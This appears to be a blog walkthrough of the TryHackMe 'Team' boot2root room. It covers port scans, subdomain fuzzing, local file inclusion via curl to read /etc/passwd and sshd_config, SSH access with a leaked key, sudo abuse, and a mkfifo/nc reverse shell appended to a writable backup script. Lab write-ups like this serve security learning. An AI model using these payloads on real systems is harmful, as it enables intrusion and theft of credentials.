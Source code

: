 ```yaml
---

title: Walkthrough - Team
published: true
---
```


Security, Boot2Root, Enumeration, Misconfiguration. boot2root machine

[https://tryhackme.com/room/teamcw](https://tryhackme.com/room/teamcw)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.193.39 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.193.39``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the port 80 apache httpd and viewing the source code we find ``Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!`` add to ``/etc/hosts`` and view.

- ``gobuster dir -u http://team.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --no-error -t 100 -x txt,php``

- ``robots.txt`` gives us dale.
- we also find scripts.txt in /scripts/ we find in our goboster scan
- which leads us to ``http://team.thm/scripts/script.old``

```
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
 
- inside the ftp

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 
```


- there is a hint that is telling us to look for a "dev" site that is under construction. 
- I had to use wfuzz for this as gobuster dns scans never returned any results. ``wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt``

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload            
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"              
000000019:   200        9 L      20 W       187 Ch      "dev"              
000000085:   200        9 L      20 W       187 Ch      "www.dev"          
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs"    
```

- add ``dev.team.thm`` to the ``/etc/hosts`` file in order to view the dev site that is being refrenced.
-  we can access files here with ../ checking ``curl -s http://dev.team.thm/script.php?page=../../../etc/passwd``
- so we have 2 users dale and gyles. lets see if we can get rsa keys

- ``curl -s http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=script.php``
- ``curl -s http://dev.team.thm/script.php?page=../../../etc/group``

and finally we find the ssh key after trying literally everywhere

- ``curl -s http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config``
- this ssh key has no password so ``chmod 400 dale.rsa`` and ssh in

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``sudo -l``

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

- we can ``sudo -u gyles /home/gyles/admin_checks``
- and move to gyles by using ``/bin/sh`` 
- upgrade the terminal with ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``for d in `echo $PATH | tr ":" "\n"`; do find $d -name "*.sh" 2>/dev/null; done``

```
You can write script: /usr/local/bin/main_backup.sh
```

- ``echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" >> /usr/local/bin/main_backup.sh``

![0xskar](/assets/team01.png)

* * * 

